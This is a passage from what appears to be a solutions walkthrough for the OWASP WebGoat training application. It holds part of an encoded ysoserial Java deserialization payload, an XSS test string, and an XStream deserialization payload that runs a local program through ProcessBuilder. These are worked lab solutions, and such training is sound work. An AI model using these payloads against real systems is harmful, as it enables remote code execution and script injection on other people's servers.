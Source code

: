 ```
sL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2l
udGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAKU291cmNlRmlsZQEADEdhZGd
ldHMuamF2YQEADElubmVyQ2xhc3NlcwcAJwEAH3lzb3NlcmlhbC9wYXlsb2Fkcy91dGlsL0dhZGdldHM
BABNTdHViVHJhbnNsZXRQYXlsb2FkAQAIPGNsaW5pdD4BABBqYXZhL2xhbmcvVGhyZWFkBwAqAQAFc2x
lZXABAAQoSilWDAAsAC0KACsALgEAH3lzb3NlcmlhbC9Qd25lcjIzNzU0MjU1MzE4ODA2MDABACFMeXN
vc2VyaWFsL1B3bmVyMjM3NTQyNTUzMTg4MDYwMDsAIQABAAMAAQAFAAEAGgAHAAgAAQAJAAAAAgAKAAQ
AAQAMAA0AAQAOAAAALwABAAEAAAAFKrcAD7EAAAACABEAAAAGAAEAAAAuABIAAAAMAAEAAAAFABMAMQA
AAAEAFQAWAAIAFwAAAAQAAQAYAA4AAAA_AAAAAwAAAAGxAAAAAgARAAAABgABAAAAMwASAAAAIAADAAA
AAQATADEAAAAAAAEAGgAbAAEAAAABABwAHQACAAEAFQAeAAIAFwAAAAQAAQAYAA4AAABJAAAABAAAAAG
xAAAAAgARAAAABgABAAAANwASAAAAKgAEAAAAAQATADEAAAAAAAEAGgAbAAEAAAABAB8AIAACAAAAAQA
hACIAAwAIACkADQABAA4AAAAZAAMAAgAAAA2nAAMBTBEnEIW4AC-xAAAAAAACACMAAAACACQAJQAAAAo
AAQABACYAKAAJdXEAfgAwAAAB1Mr-ur4AAAAxABsHAAIBACN5c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9
HYWRnZXRzJEZvbwcABAEAEGphdmEvbGFuZy9PYmplY3QHAAYBABRqYXZhL2lvL1NlcmlhbGl6YWJsZQE
AEHNlcmlhbFZlcnNpb25VSUQBAAFKAQANQ29uc3RhbnRWYWx1ZQVx5mnuPG1HGAEABjxpbml0PgEAAyg
pVgEABENvZGUKAAMAEAwADAANAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQA
EdGhpcwEAJUx5c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzJEZvbzsBAApTb3VyY2VGaWxlAQA
MR2FkZ2V0cy5qYXZhAQAMSW5uZXJDbGFzc2VzBwAZAQAfeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2F
kZ2V0cwEAA0ZvbwAhAAEAAwABAAUAAQAaAAcACAABAAkAAAACAAoAAQABAAwADQABAA4AAAAvAAEAAQA
AAAUqtwAPsQAAAAIAEQAAAAYAAQAAADsAEgAAAAwAAQAAAAUAEwAUAAAAAgAVAAAAAgAWABcAAAAKAAE
AAQAYABoACXB0AARQd25ycHcBAHhxAH4ABXNxAH4AAnEAfgAScQB-ACxxAH4ANHg
```

#### **(A9) Vulnerable Components:**

##### Vulnerable Components

5.
Copy-paste `Ok<script>XSS</script>` in each box.

12.  
![Warning](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/warning.png)  This lesson does not seem to work. 

For the deserialization, go to the link: http://www.pwntester.com/blog/2013/12/23/rce-via-xstream-object-deserialization38/ to read about why it works. The following payload should work.  

```  xml
<sorted-set>  
     <string>foo</string>  
     <dynamic-proxy>  
         <interface>java.lang.Comparable</interface>  
         <handler class="java.beans.EventHandler">  
             <target class="java.lang.ProcessBuilder">  
                 <command>  
                     <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>  
                 </command>  
             </target>  
             <action>start</action>  
         </handler>  
     </dynamic-proxy>  
</sorted-set>  
```

#### **(A8:2013) Request Forgery:**
